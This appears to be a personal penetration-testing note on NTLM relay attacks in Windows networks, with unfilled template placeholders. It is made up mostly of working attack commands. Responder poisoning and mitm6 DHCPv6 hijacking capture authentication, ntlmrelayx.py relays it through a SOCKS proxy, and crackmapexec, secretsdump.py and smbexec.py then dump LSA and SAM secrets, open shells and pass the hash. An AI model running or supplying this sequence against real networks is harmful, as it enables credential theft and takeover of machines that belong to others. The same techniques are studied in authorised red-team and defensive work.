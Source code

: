 ```yaml
---
creation date: September 8th 2022
last modified date: September 8th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[ntlmrelayx.py]]  
___

## Socks Proxy Relaying

Configure Responder with `SMB` and `HTTP` turned off in `/etc/responder/Responder.conf`

``````
[Responder Core]

; Servers to start
SQL = On
SMB = Off
RDP = On 
Kerberos = On
FTP = On 
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On  
LDAP = On
``````

````
sudo responder -I eth0 -r -d -w
````


Make sure /etc/proxychains.conf is configured to use port 1080

Find machines with SMB signing disabled

```
cme smb <networkIP>/<cidr> --gen-relay-list relayTargets.txt
```

Run ntlmrelayx.py

``````

sudo python3 ntlmrelayx.py -tf ~/Desktop/targets -socks -smb2support

``````

^a8df20

type `socks` into our relay prompt to see the active connections available.

Look for a connection that has AdminStatus set to true.

Instead of abusing LLMNR and other older protocols, we can use `mitm6` to abuse IPv6. The idea is to reply to DHCPv6 requests made by machines on the network to set the attacker IP as the default IPv6 DNS server in order to force victims to authenticate against our attacker machine(you have to turn off dns in responder.conf). ^331793

```
sudo mitm6 -d testdomain.local
```

Use proxychains with crackmapexec to use these sessions. The password we provide is arbitrary since the SOCKS proxy is going to use the session we gained from relaying auth previously. The IP and user should come from the output of running socks in ntlmrelayx.py.

`proxychains cme smb 10.1.1.206 -u user -p pass -d Domain --lsa

Using the --lsa will dump hashes and clear text passwords from registry secrets. Using --sam will obtain local account hashes.


secretsdump.py from impacket will also dump local hashes

```
proxychains ./secretsdump.py vulnerable/Administrator@192.168.48.230
```

Or you can get a shell with Impackets smbexec
```
proxychains smbexec.py <domain>/<relayedUser>@192.168.10.60
```



Validate any clear text passwords or hashes that were cracked work using crackmapexec. 

`proxychains cme smb 10.1.1.1/24 -u user -p pass -d Domain


You can also passthehash with crackmapexec if you get ntlmv1 hashes.


`proxychains cme smb 10.1.1.1/24 -u user -H hashgoeshere -d Domain


You can use bloodhound to see if those accounts have local admin on any other machine and dump lsa and sam from them. 

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 8th 2022 (10:12 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
